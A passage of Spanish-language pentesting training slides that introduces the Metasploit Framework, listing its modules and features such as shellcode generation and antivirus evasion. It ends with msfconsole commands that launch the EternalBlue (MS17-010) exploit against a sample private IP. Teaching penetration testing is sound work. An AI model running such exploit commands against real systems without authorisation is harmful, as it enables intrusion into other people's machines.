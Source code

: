 La precisión en esta fase es crucial para evitar falsos positivos y optimizar el tiempo de prueba.
{{% /note %}}

{{% /section %}}

---

{{% section %}}

### Metasploit Framework

Componentes principales:
- msfconsole
- Módulos de exploits
- Módulos auxiliares
- Payloads
- Post-explotación

{{% note %}}
Metasploit Framework es una herramienta fundamental:

Arquitectura:
- Librería de exploits verificados
- Framework modular y extensible
- Base de datos integrada
- Sistema de payloads flexible
- Herramientas de post-explotación

Funcionalidades clave:
- Gestión de sesiones
- Generación de shellcode
- Evasión de antivirus
- Pivoting de red
- Escalación de privilegios

La comprensión profunda de Metasploit es esencial para un pentesting efectivo.
{{% /note %}}

---

### Uso Básico de Metasploit

Comandos esenciales:
```bash
# Iniciar Metasploit
msfconsole

# Búsqueda de módulos
search type:exploit platform:windows ms17-010

# Uso de módulos
use exploit/windows/smb/ms17_010_eternalblue
show options
set RHOSTS 192.168.1.10
exploit
```
